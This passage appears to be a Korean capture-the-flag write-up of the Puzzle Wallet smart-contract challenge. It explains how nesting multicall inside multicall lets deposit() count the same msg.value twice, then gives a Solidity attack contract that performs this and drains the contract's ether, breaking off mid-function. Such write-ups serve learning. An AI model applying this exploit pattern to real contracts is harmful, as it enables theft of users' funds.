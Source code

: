 이는 multicall을 사용하면 된다. multicall에서 data에 담긴 함수를 호출할 때 시그니쳐 값이 deposit이면 지역변수 depositCalled를 true로 변경하여 deposit이 다시 실행되지 않도록 검사를 한다.

하지만 data[0]=deposit(), data[1]=multicall(deposit())이라면 어떻게 될까?

data[0]이 먼저 실행이 되면서 전역변수 msg.value만큼 deposit() 함수가 실행되며 msg.sender의 balances가 증가할 것이다. 이제 다시 deposit()을 실행시킬 수는 없다. 

하지만 여기서 data[1]에 담겨있는 값인 multicall(deposit())을 실행시키게 되면 multicall(2)이 호출되면서 multicall(2)에 있는 지역변수 depositCalled는 false이기 때문에 다시 deposit()을 실행시킬 수 있다. 

이 때 deposit()이 실행될 때 balances[msg.sender]+=msg.value 에 들어있는 전역 변수 값들은 delegatecall(data[i])로 delegatecall로 실행되기 때문에 전역변수가 유지되는 특성으로 인해 유지된다.

따라서 실제 전송한 이더는 0.001이더이지만 deposit()이 두번 호출되어 내 balance는 0.002가 되고 컨트랙트에 존재하는 총 이더인 0.002를 탈취할 수 있게 된다. 

이를 수행할 수 있도록 공격 컨트랙트를 작성하자.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface PuzzleProxy{
    function pendingAdmin()external returns(address);
    function admin()external returns(address);
    function proposeNewAdmin(address) external ;
    function multicall(bytes[] calldata)external payable;
    function execute(address, uint256, bytes calldata) external;
}

contract PuzzleWalletAttack{
    PuzzleProxy public target;
    address public proxy_admin;
    address public proxy_pendingadmin;
    bytes[] public data = new bytes[](2);
    bytes[] public data2 = new bytes[](1);

    constructor(address _target){
        target=PuzzleProxy(_target);
    }
    function ProxyAdmin()public{
        proxy_admin=target.admin();
    }

    function proxyPendingAdmin()public{
        proxy_pendingadmin=target.pendingAdmin();
    }

    function NewAdmin() public {
        target.proposeNewAdmin(msg.sender);
    }

    function attack()public {
        data[0]=abi.encodeWithSignature("deposit()");
        data2[0]=abi.encodeWithSignature("deposit()");
        data[1]=abi.encodeWithSignature("multicall(bytes[])",data2);

        target.multicall{value: 0.001 ether}(data);
    }

    function sweepfunds()public{
        target.execute(msg.sender,0.002 ether,"");
    }

    fallback() external payable{

```